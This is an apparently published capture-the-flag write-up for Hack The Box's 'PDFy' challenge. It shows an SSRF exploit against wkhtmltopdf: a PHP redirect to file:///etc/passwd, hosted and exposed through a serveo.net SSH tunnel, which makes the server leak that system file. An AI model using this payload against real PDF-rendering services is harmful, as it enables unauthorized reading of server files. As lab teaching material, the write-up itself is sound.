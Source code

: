 ```yaml
---
title: PDFy - Hack The Box
date: 2024-10-22
---
```


# PDFy

![PDFy - thumbnail](/ctf/hack-the-box/challenges/web/pdfy/pdfy-thumbnail.png)

## Box description

Welcome to PDFy, the exciting challenge where you turn your favorite web pages into portable PDF documents! It's your
chance to capture, share, and preserve the best of the internet with precision and creativity. Join us and transform the
way we save and cherish web content! NOTE: Leak `/etc/passwd` to get the flag!

## Challenge Description

PDFy is a web application that converts a given URL into a PDF document. The challenge is to leverage this functionality
to exploit the system and retrieve the contents of the `/etc/passwd` file.

Here is an example of a PDF generated by the application when using the URL `https://google.com`:

![PDFy - pdf example](/ctf/hack-the-box/challenges/web/pdfy/pdfy-pdf-example.png)

When an invalid URL is provided, the application returns an error message:

```
There was an error: Error generating PDF: Command '['wkhtmltopdf', '--margin-top', '0', '--margin-right', '0', '--margin-bottom', '0', '--margin-left', '0', 'https://randomrandom', 'application/static/pdfs/319c7764c7ff4a3cb02c5eaa2c9c.pdf']' returned non-zero exit status 1.
```

From this error message, we can infer that the application uses `wkhtmltopdf`, a command-line tool for rendering web
pages into PDFs.

## Vulnerability Analysis

`wkhtmltopdf` is known to be vulnerable to **Server-Side Request Forgery (SSRF)** attacks. SSRF vulnerabilities allow
attackers to make HTTP requests from the server itself, potentially accessing internal resources that are otherwise
inaccessible from the outside.

::: danger
The SSRF vulnerability in `wkhtmltopdf` could lead to severe consequences, including data leakage and unauthorized
access to internal server files.
:::

## Exploitation - SSRF

To exploit the SSRF vulnerability in `wkhtmltopdf`, we need to create a web page that tricks the server into loading and
leaking the `/etc/passwd` file. This is done by embedding a PHP script that redirects to the local file system of the
server.

### Step 1: Create the PHP Script

We first create the following PHP script that redirects the page to `file:///etc/passwd`, forcing the server to load the
file:

```php
<!DOCTYPE html>
<html>
<body>
    <h1>Hello world</h1>
<?php
header('location:file:///etc/passwd');
?>
</body>
</html>
```

### Step 2: Host the PHP Script

Next, we host the PHP script on our local machine using the PHP development server:

```bash
php -S 0.0.0.0:8000
```

This allows our machine to serve the PHP script on port 8000.

::: warning
Ensure that your firewall settings allow external connections to the server to make it accessible from the internet.
:::

### Step 3: Expose the Local Server to the Internet

To make the local PHP server accessible from the internet, we use `serveo.net` to create a tunnel that exposes our local
server:

```bash
ssh -R 80:localhost:8000 serveo.net
```

Now, the PHP script can be accessed via a public URL provided by Serveo.

### Step 4: Trigger the SSRF Attack

We submit the Serveo URL (e.g., `http://[serveo-url]/[php-script]`) to the PDFy application’s URL field. When the
application attempts to convert the URL to a PDF, the SSRF vulnerability is triggered, causing the server to follow the
`file:///etc/passwd` redirect.

### Step 5: Capture the Flag

Once the application processes the URL, it retrieves the `/etc/passwd` file. The flag is included in the server's
response, as seen in the PDF output:

![Flag - PDFy](/ctf/hack-the-box/challenges/web/pdfy/pdfy-flag-pdf.png)

With this, we successfully extract the `/etc/passwd` file and capture the flag.

![PDFy - pwned](/ctf/hack-the-box/challenges/web/pdfy/pdfy-pwned.png)

## References

- [Exploit - notes](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/)
- [Serveo.net](https://serveo.net/)
